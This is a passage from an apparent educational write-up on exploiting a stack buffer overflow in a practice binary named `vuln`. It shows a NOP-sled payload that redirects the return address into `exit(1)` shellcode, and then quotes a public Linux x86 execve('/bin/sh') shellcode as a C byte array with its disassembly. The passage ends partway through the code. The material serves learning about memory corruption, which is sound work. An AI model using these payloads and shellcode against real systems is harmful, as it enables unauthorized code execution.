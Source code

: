 Our final `payload` should look like something like this in bytes:
`\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90 \xe8\xcd\xff\xff \x31\xc0\x40\x89\xc3\xcd\x80`

Without further ado, let’s rerun `vuln` with our payload.
![[Pasted image 20240223095739.png]]
I skipped over the initial things, I believe I don’t need to explain those anymore. As we can see here: 
- `buffer` and `sfp` are filled with `NOP`s
- <span style="color:red">rip</span> at `0xffffcdf4` points towards <span style="color:green">0xffffcdf8</span>
- <span style="color:green">0xffffcdf8</span> up until `0xffffcdff` contains our `exit(1)` shell code.

Let’s skip to `ret` and single step from here just to view it more closely:
![[Pasted image 20240223100051.png]]
And there you go, we are already executing `exit(1)`. Just to confirm, let’s view the next 5 instructions in the `eip`:
![[Pasted image 20240223100135.png]]

And that’s that. Lets continue and get our sweet sweet `exited with code 01`
![[Pasted image 20240223100209.png]]

Now that we have a reliable way to insert longer shell code, lets try `execve("/bin/bash")`

## Beyond the matrix
This is just for fun, we grab [shell code from shell-storm](https://shell-storm.org/shellcode/files/shellcode-811.html) that executes `execve("/bin/bash") 

```c
/*
Title:	Linux x86 execve("/bin/sh") - 28 bytes
Author:	Jean Pascal Pereira <pereira@secbiz.de>
Web:	http://0xffe4.org


Disassembly of section .text:

08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80



*/

#include <stdio.h>

char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                   "\x68\x68\x2f\x62\x69\x6e\x89"
                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                   "\xcd\x80\x31\xc0\x40\xcd\x80";

int main()
```